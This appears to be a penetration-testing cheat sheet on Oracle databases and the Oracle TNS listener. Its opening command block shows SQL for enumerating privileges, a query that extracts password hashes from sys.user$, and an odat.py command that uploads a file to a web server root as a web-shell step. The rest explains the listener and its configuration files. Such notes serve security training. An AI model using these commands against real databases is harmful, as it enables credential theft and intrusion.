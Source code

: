 ## Oracle basic commands

```shell-session
# List all available tables in the current database
select table_name from all_tables;

# Show the privileges of the current user
select * from user_role_privs;

# If we have sysdba admin rights, we might:
	## 1. enumerate all databases
select * from user_role_privs;

	## 2. extract Password Hashes
select name, password from sys.user$;

	## 3. upload a web shell to the target. This requires the server to run a web server, and we need to know the exact location of the root directory for the webserver.
	## 1. Creating a non suspicious web shell 
echo "Oracle File Upload Test" > testing.txt
	## 2. Uploading the shell to linux (/var/www/html) or windows (C:\\inetpub\\wwwroot):
./odat.py utlfile -s $ip -d XE -U <user> -P <password> --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```


## How does Oracle TNS work

### Technical components

**The listener**:  

By default, the listener listens for incoming connections on the TCP/1521 port. However, this default port can be changed during installation or later in the configuration file. The TNS listener is configured to support various network protocols, including TCP/IP, UDP, IPX/SPX, and AppleTalk. The listener can also support multiple network interfaces and listen on specific IP addresses or all available network interfaces. By default, Oracle TNS can be remotely managed in Oracle 8i/9i but not in Oracle 10g/11g. 


Additionally, the listener will use Oracle Net Services to encrypt the communication between the client and the server. 


**Configuration files for Oracle TNS**

The configuration files for Oracle TNS are called `tnsnames.ora` and `listener.ora` and are typically located in the `ORACLE_HOME/network/admin` directory. The client-side Oracle Net Services software uses the `tnsnames.ora` file to resolve service names to network addresses, while the listener process uses the `listener.ora` file to determine the services it should listen to and the behavior of the listener.

*tnsnames.ora*

